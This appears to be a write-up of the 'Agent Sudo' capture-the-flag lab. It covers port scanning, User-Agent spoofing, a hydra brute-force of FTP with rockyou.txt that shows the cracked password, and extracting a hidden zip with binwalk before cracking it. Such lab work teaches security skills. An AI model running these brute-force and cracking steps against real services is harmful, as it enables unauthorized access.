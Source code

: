 # Agent Sudo
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

# Task 1
Deploy the machine

# Task 2 Enumerate
How many open ports?
Ans:  3
```console 
$ sudo nmap 10.10.66.70
Starting Nmap 7.80 ( https://nmap.org ) at 2023-09-30 20:53 PST
Nmap scan report for 10.10.66.70
Host is up (0.24s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 17.26 seconds

```

How you redirect yourself to a secret page?
```
Dear agents,  
  
Use your own **codename** as user-agent to access the site.  
  
From,  
Agent R
```
the codename is the hint
Ans: user-agent

What is agent name?
I used burpsuite to intercept the connection in http://<ip_address>
In proxy tab, click intercept then let the intercept on then open browser. Paste the url into the browser. Change the header user-agent into agent name, then forward and intercept off. The name of the agent looks like like agent R, so i tried to change to A and B nothing happened. But in C we have a result
```
Attention chris,  
  
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!  
  
From,  
Agent R
```
Ans: chris

# Task 3 Hash cracking and brute-force
Done enumerate the machine? Time to brute your way out.

FTP password
research how to hydra or hydra -h. 
```
Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```
we have ftp, so we use ftp example
``` console
ydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.41.72
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-02 21:25:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.41.72:21/
[STATUS] 240.00 tries/min, 240 tries in 00:01h, 14344159 to do in 996:08h, 16 active
[21][ftp] host: 10.10.41.72   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-02 21:26:57
```
the password is crystal
Ans: crystal

Zip file password
now login to ftp.
``` console
ftp <ip_address>
Connected to 10.10.41.72.
220 (vsFTPd 3.0.3)
Name (10.10.41.72:yoky): chris
331 Please specify the password.
Password:
```
enter the username chris and the password crystal
the ftp server has 3 files, download it to our machine.
```console
get To_agentJ.txt
get cute-alien.jpg
get cutie.png
```
The text file giving us more info.
```console
$ cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C

```
by using binwalk to both png files. The cutie has hidden zip file, so extract it by using binwalk -e. Now its extracted, redirect to the extracted directory. it has txt and zip file. The txt file is empty

Zip file password
use john the ripper
Ans: alien
